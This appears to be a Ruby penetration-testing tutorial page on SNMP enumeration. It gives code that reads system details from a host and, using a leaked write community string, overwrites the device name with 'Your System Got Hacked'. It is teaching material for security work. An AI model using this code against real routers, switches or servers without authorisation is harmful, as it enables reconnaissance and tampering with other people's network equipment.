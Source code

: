 # SNMP Enumeration
- Install [ruby-snmp][1]
```
gem install snmp
```

## Get Request
Miss configure an SNMP service would gives an attacker a huge mount of information. Let's to see you we can interact with the server to retrieve some info.

```ruby
# KING SABRI | @KINGSABRI
require 'snmp'

# Connect to SNMP server
manager = SNMP::Manager.new(:host => '192.168.0.17')

# General info 
puts "SNMP Version: " + manager.config[:version]
puts "Community: " + manager.config[:community]
puts "Write Community: " + manager.config[:WriteCommunity]


# Get hostname, contact and location
hostname = manager.get("sysName.0").each_varbind.map {|vb| vb.value.to_s}       # manager.get("sysName.0").varbind_list[0]
contact  = manager.get("sysContact.0").each_varbind.map {|vb| vb.value.to_s}    # manager.get("sysContact.0").varbind_list[0]
location = manager.get("sysLocation.0").each_varbind.map {|vb| vb.value.to_s}   # manager.get("sysLocation.0").varbind_list[0]

# It would take an array of OIDs
response = manager.get(["sysName.0", "sysContact.0", "sysLocation.0"])
response.each_varbind do |vb|
    puts vb.value.to_s
end

```

> Note: the OID names are case sensitive 


## Set Request
Sometimes we get luck and we get the private/management string of SNMP. At this moment we might be able to apply changes on the system, router, switches configurations.

```ruby
require 'snmp'
include SNMP

# Connect to SNMP server
manager = SNMP::Manager.new(:host => '192.168.0.17')
# Config our request to OID
varbind = VarBind.new("1.3.6.1.2.1.1.5.0", OctetString.new("Your System Got Hacked"))
# Send your request with varbind our settings
manager.set(varbind)
# Check our changes 
manager.get("sysName.0").each_varbind.map {|vb| vb.value.to_s}
manager.close
```



<br><br><br>
---
[1]: https://github.com/hallidave/ruby-snmp/